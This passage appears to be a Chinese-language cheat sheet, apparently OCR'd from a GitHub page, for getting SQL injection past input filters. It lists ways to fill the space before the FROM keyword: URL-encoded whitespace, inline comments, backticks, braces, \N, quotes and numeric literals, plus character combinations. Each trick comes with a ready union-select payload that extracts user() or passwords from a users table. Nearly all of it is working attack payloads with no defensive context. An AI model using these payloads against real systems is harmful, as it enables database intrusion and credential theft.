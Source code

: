 

##### 位置四

(1) 空白符

`%09,%0a,%0b,%0c,%0d,%20,%23,%27`

```
-1' union select 1,2,user()%23from users--+
```


(2)注释

` /*!*/ /**/ `

```
-1' union select 1,2,user()/**/from users--+
```


(3) 反引号

1' union select 1,2,password \``from  users\`` --+



(4)花括号 

```
1' union select 1,2,{x password}from users --+

1' union select 1,2,(password)from users --+
```


(5) 符号

\N

1' union select 1,password,\Nfrom users --+

单双引号

 1' union select 1,user(),""from users --+  

e  .

1' union select 1,password,3e1from users --+  

1' union select 1,password,3.1from users --+  



组合

```
\N%0C  \N%23  \N%27  %7E\N  %21\N  %27\N   %2D\N  %7E\N %2D%2D%0A
%27--  --%40   --%27 --""
...
```

```
1' union select 1,user(),\NXXXX%23from users --+

1' union select 1,user(),%27XXXX--from users --+  
```
